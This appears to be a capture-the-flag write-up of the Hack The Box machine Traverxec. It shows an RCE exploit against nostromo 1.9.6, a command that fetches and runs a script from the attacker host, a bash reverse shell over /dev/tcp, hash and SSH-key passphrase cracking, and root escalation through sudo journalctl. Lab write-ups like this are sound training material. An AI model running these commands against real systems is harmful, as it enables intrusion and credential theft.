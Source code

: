 ```yaml
---
path: "/htb-traverxec"
title: "Hack The Box - Traverxec"
date: "04/17/2020"
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not
...
```
At this time there is not much that can be done we with the port 22. More recon needs to be done. Looking up nostromo, you can find that version 1.9.6 is [vulnerble](https://www.exploit-db.com/exploits/47837) to Remote Code Execution (RCE). The readily avaialble exploit comes in the form of a python script (There is a Metasploit module also avialable). To run the script, a hostname, port and command must be supplied. You could leverage this to get a shell into the box but I decide to just issue a command to grab a [linux enumeration script](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh) and run it. (This script was hosted locally).

```
python nostromo_exploit.py 10.10.10.165 80 "cd /var/nostromo/logs/ && wget http://10.10.14.31:8000/lse.sh.1 && chmod u+x lse.sh.1 && ./lse.sh.1"
```

The output is quite long but the one thing that stands out.
```

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Thu, 05 Mar 2020 07:21:53 GMT
Server: nostromo 1.9.6
Connection: close
...
===============================================================( software )=====
...
[!] sof040 Found any .htpasswd files?...................................... yes!
---
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
---
...
==================================( FINISHED )==================================
```

We now have a username and potential password. From the looks of the hash this is md5crypt. You verify this running 
`hashcat --example-hashes` and searching for the pattern `$1$`

```
hashcat -m 500 -a 0 ./pass.txt /usr/share/wordlists/rockyou.txt --force --show
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

To do more recon establish a shell on box 
`python nostromo_exploit.py 10.10.10.165 80 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.93/1337 0>&1'"`

From within the box you can locate the nostromo configuration file. This file specifies the options for [HOMEDIRS](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd#HOMEDIRS). This specifies the home directory for nostromo. 

`/var/nostromo/conf/`

The `homedirs_public` option is a publicly accessible folder. You cannot access the `~david/` but you can access `~david/public_www`.
The content of the directory is as follows
```
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

./protected-file-area:
total 16
drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www$
```

The backup file contains the following
```
./home:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 20:26 ..
drwxr-xr-x 3 root root 4096 Mar  5 19:10 david

./home/david:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
drwx------ 2 1000 1000 4096 Oct 25 17:02 .ssh

./home/david/.ssh:
total 20
drwx------ 2 1000 1000 4096 Oct 25 17:02 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 authorized_keys
-rw------- 1 1000 1000 1766 Oct 25 17:02 id_rsa
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 id_rsa.pub
```

The public key is password protectec but can be cracked with `JohnTheRipper`

```
oot@kali:~/HTB/Traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt david.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-03-05 19:23) 0.3154g/s 4524Kp/s 4524Kc/s 4524KC/sa6_123..*7¡Vamos!
Session completed
```

With this you can ssh as david and get the user flag.
```
root@kali:~/HTB/Traverxec/home/david# ssh david@10.10.10.165 -i .ssh/id_rsa 
Enter passphrase for key '.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Apr 18 00:43:51 2020 from 10.10.14.93
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ 
```

For the root flag, start from the bin directory in the david home directory. The file `server-stats.sh` contains a line that executes a sudo command.

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

You can use [journalctl](https://gtfobins.github.io/gtfobins/journalctl/#sudo) to escalate privilege to root.

The following command is to be execute with the window smaller than usual to have the output piped to less. From less you can then execute a shell.
`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

from within less 
`!/bin/sh`

Output
```
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2020-04-18 01:33:
Apr 18 01:33:59 traverxec nhttpd[442]:
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
nostromo_1.9.6-1.deb  root.txt
```




